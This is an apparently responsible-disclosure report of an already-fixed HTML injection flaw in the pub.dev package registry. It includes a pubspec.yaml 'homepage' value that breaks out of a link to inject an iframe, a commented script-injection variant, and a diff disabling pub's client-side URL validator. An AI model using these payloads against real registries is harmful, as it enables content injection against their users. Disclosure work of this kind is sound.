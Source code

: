 # Raport of security issue reported to google

Issue was fixed before publishing this on github

---
---
---

# IFRAME injection to pub.dev package registry

## instruction

Please consider this `pubspec.yaml`

```yaml
name: doggy_website
description: inject something
version: 1.5.0
homepage: 'https://dart.dev/" rel="ugc"> Flamingo or llama?  </a> <iframe width="560" height="315" src="https://www.youtube.com/embed/owsfdh4gxyc" frameborder="0" allowfullscreen></iframe>'
#homepage: 'https://dart.dev/" rel="ugc"> love letter </a> <script>console.log("llama");alert(1);</script>'

environment:
  sdk: '>=2.12.0 <3.0.0'

```

Please also consider publishing package by:
```bash
/home/n0npax/workspace/dart-lang-org/pub/bin/pub.exe publish -v --trace
```

Please focus on fact, `pub` is custom compiled `pub`. It contains this patch applied:
```diff
diff --git a/lib/src/validator/pubspec_field.dart b/lib/src/validator/pubspec_field.dart
index 8a5c23e4..25e103ad 100644
--- a/lib/src/validator/pubspec_field.dart
+++ b/lib/src/validator/pubspec_field.dart
@@ -15,7 +15,7 @@ class PubspecFieldValidator extends Validator {
   @override
   Future validate() {
     _validateFieldIsString('description');
-    _validateFieldUrl('homepage');
+    // _validateFieldUrl('homepage');
     _validateFieldUrl('repository');
     if (!_hasField('homepage') && !_hasField('repository')) {
       warnings.add(
```

to not disturb customer facing registry, lets assume you will run clone of registry on localhost and
```bash
export PUB_HOSTED_URL=http://localhost:8080
```
to ensure pub will use your dev registry.

## what has happened?

Once package is pushed you can see that iframe was injected.

![alt text](flamingos.png "Title")

## Why is has happened?

The only protection from doggy url was on client side. The url verification has not happened on server side.

## JS injection

JS injection is also possible, but harmless as per CSP policy